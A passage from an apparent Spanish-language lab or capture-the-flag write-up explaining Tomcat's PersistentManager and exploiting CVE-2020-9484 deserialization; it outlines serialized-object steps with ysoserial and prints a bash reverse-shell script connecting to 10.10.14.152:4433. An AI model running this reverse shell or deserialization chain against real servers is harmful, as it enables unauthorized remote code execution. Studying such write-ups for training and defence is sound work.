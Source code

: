 Bueno pues el primero lo cumplimos, el segundo y el tercero deberíamos probarlo. Y ver si en algún momento vemos algo. Hablemos de `PersistentManager`:

Funciona como gestor de sesiones, sabiendo que estas sirven para mantener el estado entre peticiones de usuarios. Por default la configuración cuenta con `StandardManager`, pero depende del admin cambiarlo a `PersistentManager`. `StandardManager` permite que las sesiones de usuario se guarden en la memoria, después de que **tomcat** sea cerrado pasara las sesiones al disco en un objeto serializado...

`PersistentManager` hace lo mismo, pero si una sesión ha estado suficiente tiempo inactiva la pasara al disco, esto para reducir el uso de memoria.

Uno puede elegir como y donde quiere que las sesiones sean almacenadas:

* `FileStore`: Se especifica una carpeta en el disco, ahí se guardaran las sesiones dependiendo su ID.
* `JDBCStore`: Se especifica una tabla en la base de datos, donde cada sesión se guarda por fila.

La mayoría de la info la pueden encontrar acá:

* [Apache Tomcat Deserialization - Redtimmy.com](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/).
* [PersistentManager - apache.org](https://tomcat.apache.org/tomcat-5.5-doc/catalina/docs/api/org/apache/catalina/session/PersistentManager.html).
* [Apache Tomcat Deserialization Untrusted Data - Medium.com/@romnenko](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4). **OJO**

...

## Explotación [#](#explotacion) {#explotacion}

Perfecto, pues enumerando aún más encontré un PoC donde explica como subir varios objetos serializados para finalmente conseguir una reverse Shell:

* [Apache Tomcat Deserialization Untrusted Data - Medium.com/@romnenko](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4).

Los pasos que debemos seguir son sencillos y fáciles de entender:

1. Crear archivo `bash` donde tengamos la petición hacia nuestra máquina. (Para cuando se ejecute obtener la reverse Shell)
2. Crear objetos serializados: Uno para subir el payload, otro para darle permisos y otro para ejecutarlo.
3. Ponernos en escucha :P
4. Ejecutar las peticiones.

Démosle:

```bash
–» cat ejeje.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.152/4433 0>&1"
```

Ahora creamos los objetos serializados, usaremos la misma herramienta que él, [**ysoserial**](https://github.com/frohoff/ysoserial#installation).
